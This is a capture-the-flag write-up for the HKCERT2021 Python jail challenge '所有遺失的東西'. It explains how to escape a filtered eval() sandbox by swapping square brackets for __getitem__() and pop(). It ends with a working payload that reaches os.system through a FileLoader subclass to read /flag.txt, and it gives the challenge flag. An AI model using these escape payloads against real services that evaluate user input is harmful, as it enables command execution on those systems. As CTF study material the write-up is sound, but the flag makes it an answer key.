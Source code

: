 # HKCERT2021 - 所有遺失的東西
- Write-Up Author: Ivan Mak \[[MOCTF](https://hackmd.io/JH0dysBTSx6H1o1PZ7OqWg)\]

- Flag: hkcert21{nev3r_uSe_pYth0n_45_sanDBox}

## **Question:**
所有遺失的東西 (150 points)

>Challenge description

![img](./img/1.png)

Attachment: [pyjail1_f7be93352498ebd158a0a9fc069b30e9.zip](./pyjail1_f7be93352498ebd158a0a9fc069b30e9.zip)

## Write up

1. First, let’s see the source code as below:

```
backup_eval = eval
backup_print = print
input = input()
if '[' in input or ']' in input:
    print('[You failed to break the jail]')
    exit(-1)
globals()['__builtins__'].__dict__.clear()
backup_print(backup_eval(input,{},{}))
```

From source code, we can get to know 3 points:
- From “**input = input()**” and “**backup_print(backup_eval(input,{},{}))**”, our input will be treated as string normally, and with some trial we can get to know the program is written in Python 3, we cannot do direct escape like in Python 2. With this point one thing we may consider is to leverage builtin modules (e.g. __builtin__  or  magic function like__class__) to escape and run system command. 
- From “**if '[' in input or ']' in input:**”, “[“ and “]” is filtered, which is generally needed when calling __builtin__, __class__
- From “**globals()['__builtins__'].__dict__.clear()**”, seems the approach using  “__builtin__”  should not work.

Up to this moment, we can get one feasible approach (I should say seems feasible) to use approach of calling magic function like __class__, and think of a way to call system command by not using “[“ and “]”.

2. Next, let’s explore if it’s possible by not using “[“ and “]”.  

After some research I got [this link](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/)

過濾中括號
其中部分[]被過濾掉時，
• 調用__getitem__()函數直接替換；
• 調用pop()函數（用於移除列表中的一個元素，默認最終一個元素，並且返回該元素的值）替換；

如：
```
#代表
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('calc')
# __getitem__()替換中括號[]
''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('calc')

#pop()替換中括號[]，結合__getitem__()利用
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('__import__')('os').system('calc')
```

It means that when “[“ and “]” are filtered, we may use pop() and __getitem__() together to perform Python Sandbox Escape. So the approach to use __class__ without using “[“ and “]” likely is the right approach.

3. We can start to craft the payload and get the flag

First we need to know all the classes available to be called. This link is very good to explain how we can get the subclasses available: [Analysis of Python Sandbox Escape (sourceexample.com)](https://sourceexample.com/article/en/85036c9f263817cc353fe9752c9b4c2c/), with the method introduced in the article (but remember we need to use pop() and __getitem__ to avoid our payload being filtered), when we try to get subclasses with ''.__class__.__mro__.__getitem__(-1), we can get the subclasses list as below:

```
<class 'type'>, 
<class 'weakref'>, 
<class 'weakcallableproxy'>, 
<class 'weakproxy'>, 
<class 'int'>, 
<class 'bytearray'>, 
<class 'bytes'>, 
<class 'list'>, 
<class 'NoneType'>, 
<class 'NotImplementedType'>, 
<class 'traceback'>,
<class 'super'>,
<class 'range'>, 
<class 'dict'>, 
<class 'dict_keys'>, 
<class 'dict_values'>, 
<class 'dict_items'>, 
<class 'dict_reversekeyiterator'>, 
<class 'dict_reversevalueiterator'>, 
<class 'dict_reverseitemiterator'>, 
<class 'odict_iterator'>, 
<class 'set'>, 
<class 'str'>, 
<class 'slice'>, 
<class 'staticmethod'>,
<class 'complex'>, 
<class 'float'>, 
<class 'frozenset'>, 
<class 'property'>, 
<class 'managedbuffer'>, 
<class 'memoryview'>, 
<class 'tuple'>, 
<class 'enumerate'>, 
<class 'reversed'>, 
<class 'stderrprinter'>, 
<class 'code'>, 
<class 'frame'>, 
<class 'builtin_function_or_method'>, 
<class 'method'>, 
<class 'function'>,
<class 'mappingproxy'>, 
<class 'generator'>,
<class 'getset_descriptor'>,
<class 'wrapper_descriptor'>, 
<class 'method-wrapper'>, 
<class 'ellipsis'>, 
<class 'member_descriptor'>, 
<class 'types.SimpleNamespace'>, 
<class 'PyCapsule'>, 
<class 'longrange_iterator'>, 
<class 'cell'>, 
<class 'instancemethod'>, 
<class 'classmethod_descriptor'>, 
<class 'method_descriptor'>, 
<class 'callable_iterator'>, 
<class 'iterator'>, 
<class 'pickle.PickleBuffer'>,
<class 'coroutine'>, 
<class 'coroutine_wrapper'>, 
<class 'InterpreterID'>, 
<class 'EncodingMap'>,
<class 'fieldnameiterator'>, 
<class 'formatteriterator'>, 
<class 'BaseException'>, 
<class 'hamt'>, 
<class 'hamt_array_node'>, 
<class 'hamt_bitmap_node'>, 
<class 'hamt_collision_node'>, 
<class 'keys'>,<class 'values'>,
<class 'items'>,<class 'Context'>, 
<class 'ContextVar'>, 
<class 'Token'>, 
<class 'Token.MISSING'>, 
<class 'moduledef'>,
<class 'module'>, 
<class 'filter'>, 
<class 'map'>, 
<class 'zip'>, 
<class '_frozen_importlib._ModuleLock'>,
<class '_frozen_importlib._DummyModuleLock'>, 
<class '_frozen_importlib._ModuleLockManager'>, 
<class '_frozen_importlib.ModuleSpec'>, 
<class '_frozen_importlib.BuiltinImporter'>,
<class 'classmethod'>, 
<class '_frozen_importlib.FrozenImporter'>,
<class '_frozen_importlib._ImportLockContext'>,
<class '_thread._localdummy'>, 
<class '_thread._local'>, 
<class '_thread.lock'>, 
<class '_thread.RLock'>, 
<class '_io._IOBase'>, 
<class '_io._BytesIOBuffer'>,
<class '_io.IncrementalNewlineDecoder'>, 
<class 'posix.ScandirIterator'>,
<class 'posix.DirEntry'>,
<class '_frozen_importlib_external.WindowsRegistryFinder'>, 
<class '_frozen_importlib_external._LoaderBasics'>, 
<class '_frozen_importlib_external.FileLoader'>, 
<class '_frozen_importlib_external._NamespacePath'>, 
<class '_frozen_importlib_external._NamespaceLoader'>, 
<class '_frozen_importlib_external.PathFinder'>,
<class '_frozen_importlib_external.FileFinder'>, 
<class 'zipimport.zipimporter'>, 
<class 'zipimport._ZipImportResourceReader'>,
<class 'codecs.Codec'>,
<class 'codecs.IncrementalEncoder'>, 
<class 'codecs.IncrementalDecoder'>, 
<class 'codecs.StreamReaderWriter'>, 
<class 'codecs.StreamRecoder'>, 
<class '_abc._abc_data'>, 
<class 'abc.ABC'>,
<class 'dict_itemiterator'>,
<class 'collections.abc.Hashable'>, 
<class 'collections.abc.Awaitable'>, 
<class 'types.GenericAlias'>, 
<class 'collections.abc.AsyncIterable'>,
<class 'async_generator'>, 
<class 'collections.abc.Iterable'>, 
<class 'bytes_iterator'>, 
<class 'bytearray_iterator'>, 
<class 'dict_keyiterator'>,
<class 'dict_valueiterator'>, 
<class 'list_iterator'>,
<class 'list_reverseiterator'>, 
<class 'range_iterator'>, 
<class 'set_iterator'>, 
<class 'str_iterator'>,
<class 'tuple_iterator'>, 
<class 'collections.abc.Sized'>,
<class 'collections.abc.Container'>, 
<class 'collections.abc.Callable'>, 
<class 'os._wrap_close'>, 
<class '_sitebuiltins.Quitter'>, 
<class '_sitebuiltins._Printer'>, 
<class '_sitebuiltins._Helper'>
```

We need to find a class which can call OS command. With some research and test (including some failures), We can get a class called **<class '_frozen_importlib_external.FileLoader'>**, and the index number is 99 (well, you may count by manual or write a simple python script to do the counting) which may be able to call OS command. With some tries here is our payload worked (with leverage pop and __getitem__):

```
''.__class__.__mro__.__getitem__(-1).__subclasses__().pop(99).__init__.__globals__.get('_os').__dict__.get('system')('cat /flag.txt')
```

Get the flag:
> hkcert21{nev3r_uSe_pYth0n_45_sanDBox}
